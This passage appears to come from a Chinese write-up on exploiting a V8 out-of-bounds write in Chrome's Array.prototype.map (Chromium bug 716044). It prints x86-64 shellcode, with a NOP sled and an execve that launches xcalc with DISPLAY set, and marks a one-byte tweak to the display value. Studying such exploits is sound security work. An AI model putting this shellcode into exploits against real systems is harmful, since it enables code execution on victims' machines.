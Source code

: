 

## shellcode

```
0: 90 nop
1: 90 nop
2: 90 nop
3: 90 nop #(省略四个nop)
4: 48 b8 2f 78 63 61 6c movabs rax, 0x636c6163782f #/xcalc
b: 63 00 00
e: 50 push rax
f: 48 b8 2f 75 73 72 2f movabs rax, 0x6e69622f7273752f #/usr/bin
16: 62 69 6e
19: 50 push rax
1a: 48 89 e7 mov rdi, rsp
1d: 48 31 c0 xor rax, rax
20: 50 push rax
21: 57 push rdi
22: 48 89 e6 mov rsi, rsp
25: 48 31 d2 xor rdx, rdx
28: 48 c7 c0 3a 30 00 00 mov rax, 0x303a # :0 改为-&gt;0x313a
2f: 50 push rax
30: 48 b8 44 49 53 50 4c movabs rax, 0x3d59414c50534944
37: 41 59 3d
3a: 50 push rax
3b: 48 89 e2 mov rdx, rsp
3e: 48 31 c0 xor rax, rax
41: 50 push rax
42: 52 push rdx
43: 48 89 e2 mov rdx, rsp
46: 48 c7 c0 3b 00 00 00 mov rax, 0x3b
4d: 0f 05 syscall
```

这里执行的是DISPLAY=:0 /usr/bin/xcalc，我本地的DISPLAY环境变量是:1，所以这个shellcode在我这会报错，改shellcode,改动在上面有标出

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b1825f988baaa6b4.png)

[![](https://p4.ssl.qhimg.com/t01a9202f7edcd9ad2c.png)](https://p4.ssl.qhimg.com/t01a9202f7edcd9ad2c.png)

**参考**

716044 – V8: OOB write in Array.prototype.map builtin – chromium

Exploiting a V8 OOB write. (halbecaf.com)
